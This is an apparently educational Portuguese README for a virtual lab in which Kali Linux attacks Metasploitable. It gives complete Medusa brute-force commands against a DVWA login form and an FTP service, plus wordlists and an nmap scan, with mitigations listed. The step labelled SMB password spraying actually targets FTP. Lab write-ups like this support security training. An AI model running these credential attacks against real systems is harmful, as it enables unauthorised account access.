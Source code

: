 # 💻 Simulação de Ataques em Ambiente Virtual

Este projeto demonstra a configuração de um ambiente virtual para simulação de ataques cibernéticos utilizando ferramentas como Kali Linux, Metasploitable e Medusa. O objetivo é estudar técnicas de força bruta e password spraying em serviços vulneráveis.

## 🧰 Ambiente Utilizado

- **VirtualBox** para virtualização
- **Kali Linux** como máquina atacante
- **Metasploitable** como máquina vulnerável

## 🎯 Objetivos

- Simular ataques de força bruta em FTP
- Automatizar tentativas de login em formulário web (DVWA)
- Realizar password spraying em SMB com enumeração de usuários
- 
---

## 🛠️ Preparação Inicial

Antes de iniciar os testes, é importante garantir que o ambiente virtual esteja corretamente configurado e conectado.

### 🔄 Criar Snapshot de Segurança

Antes de qualquer alteração, crie um **snapshot** no Metasploitable para garantir um ponto de restauração em caso de falhas ou erros durante os testes.

1. Acesse o sistema e clique no campo "Máquina" e em seguida "Criar snapshot".
2. O ideal é escrever tudo com letras minúsculas, sem espeço e não utilizar acentos ou caracteres especiais.

```text
configuracaoinicial
```

### 🔐 Acesso ao Metasploitable

1. Inicie a máquina **Metasploitable**.
2. Faça login com as seguintes credenciais:

```text
Usuário: msfadmin  
Senha: msfadmin
```
3. Descubra o ip da máquina

```bash
ip a
```

### 📡 Verificar Conectividade com Kali Linux

Com o ip do Metasploitable faça o teste para verificar a conectividade, no terminal da máquina **Kali Linux**, execute o seguinte comando:

```bash
ping -c 3 192.168.56.101
```

Se o retorno for positivo, o ambiente está pronto para iniciar os testes.

---
## 🔐 Etapa 1: Ataque de Força Bruta em Formulário Web (DVWA)

### 📋 Descrição

Ataque de força bruta para descobrir credenciais de login em um formulário web vulnerável.

### 🧪 Procedimento

1. Acesse o modo desenvolvedor do navegador (`F12`) e vá até a aba **Network** para identificar os parâmetros enviados pelo formulário.
2. Crie listas de usuários e senhas através dos comandos abaixo:

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

3. Execute o ataque com o Medusa utilizando o seguinte comando:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6
```

4. O Medusa exibirá os testes realizados e indicará o usuário válido através da seguinte mensagem `SUCCESS`.

### 🛡️ Mitigação

- Utilização de bibliotecas de autenticação robustas
- Implementação de CAPTCHA
- Autenticação multifator (2FA)

---

## 🧨 Etapa 2: Password Spraying em SMB com Enumeração de Usuários

### 📋 Descrição

O ataque de password spraying em serviços SMB após enumeração de usuários e portas abertas.

### 🧪 Procedimento

1. Enumere os serviços disponíveis:

```bash
nmap -sV -p 21,80,445,139 192.168.56.101
```

2. Verifique se o serviço FTP está ativo:

```bash
ftp 192.168.56.101
```

3. Crie listas de usuários e senhas:

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

4. Execute o ataque com o Medusa:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

5. O Medusa indicará sucesso com a mensagem `SUCCESS`.

6. Valide o acesso via FTP com as credenciais obtidas:

```bash
ftp 192.168.56.101
```

### 🛡️ Mitigação

- Políticas de senha fortes (letras, números e caracteres especiais)
- Troca periódica de senhas
- Restrição de tentativas de login

---

## 📎 Observações

Este projeto é apenas para fins educacionais criado a partir dos estudos em cybersecurity.
